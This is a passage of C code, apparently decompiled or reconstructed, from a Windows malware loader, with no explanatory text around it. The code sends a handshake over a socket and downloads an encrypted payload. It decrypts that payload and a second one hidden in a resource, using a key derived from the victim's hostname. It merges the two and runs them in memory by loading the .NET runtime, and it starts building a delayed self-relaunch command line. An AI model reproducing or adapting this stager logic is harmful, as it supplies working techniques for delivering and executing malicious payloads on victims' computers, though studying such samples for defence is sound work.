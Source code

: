 ```c
    GetComputerNameExA(ComputerNamePhysicalDnsHostname, host, &hostLen);

    for (DWORD i = 0; host[i]; ++i)
        host[i] ^= netBuf[i];

    /* -----------------------------------------------------------------
       5.  Stage-2 handshake
       ----------------------------------------------------------------- */
    if (send(s, "533_11s4\n", 9, 0) == SOCKET_ERROR)
        goto fail_sock;

    /* -----------------------------------------------------------------
       6.  Pull encrypted payload A from network
       ----------------------------------------------------------------- */
    SIZE_T   sizeA   = 0x1E00;                         // 7 680 bytes
    BYTE    *blobA   = (BYTE*)VirtualAlloc(NULL, 0x2710,
                                           MEM_COMMIT, PAGE_READWRITE);
    if (!blobA)                                        goto fail_sock;
    recv(s, blobA, sizeA, 0);

    /* -----------------------------------------------------------------
       7.  Decrypt payload A  (RC4-style)
       ----------------------------------------------------------------- */
    BYTE *stageA = sub_140001010(blobA, host, (DWORD)sizeA);
    // NB: returns ptr in RWX region; blobA itself is XORed in place too.

    /* -----------------------------------------------------------------
       8.  Extract & decrypt resource payload B (ID=0x65, type “e”)
       ----------------------------------------------------------------- */
    HMODULE  mod     = GetModuleHandleW(NULL);
    HRSRC    hRes    = FindResourceW(mod, MAKEINTRESOURCEW(0x65), L"e");
    DWORD    resSz   = SizeofResource(mod, hRes);
    HGLOBAL  hGlob   = LoadResource(mod, hRes);
    BYTE    *srcB    = (BYTE*)LockResource(hGlob);

    BYTE *blobB      = (BYTE*)VirtualAlloc(NULL, resSz,
                                           MEM_COMMIT, PAGE_READWRITE);
    memcpy(blobB, srcB, resSz);
    sub_140001010(blobB, host, resSz);                 // decrypt in place

    /* -----------------------------------------------------------------
       9.  Patch payload A with payload B at offset 0xDB0
       ----------------------------------------------------------------- */
    for (DWORD i = 0; i < resSz; ++i)
        stageA[0xDB0 + i] = blobB[i];

    /* -----------------------------------------------------------------
      10.  Winsock teardown – network work is finished
       ----------------------------------------------------------------- */
    closesocket(s);                                   // falls through
fail_sock:
    WSACleanup();

    /* -----------------------------------------------------------------
      11.  .NET stager – load CLR & execute managed EntryPoint
       ----------------------------------------------------------------- */
    sub_140001980(stageA, host);                       // heavy COM code

    /* -----------------------------------------------------------------
      12.  Build delay-run command line (“ping sleep + self”)
           Example:  cmd.exe /C ping 127.0.0.1 -n 10 > Nul & "C:\path\self.exe"
       ----------------------------------------------------------------- */
    WCHAR   selfPath[MAX_PATH];
```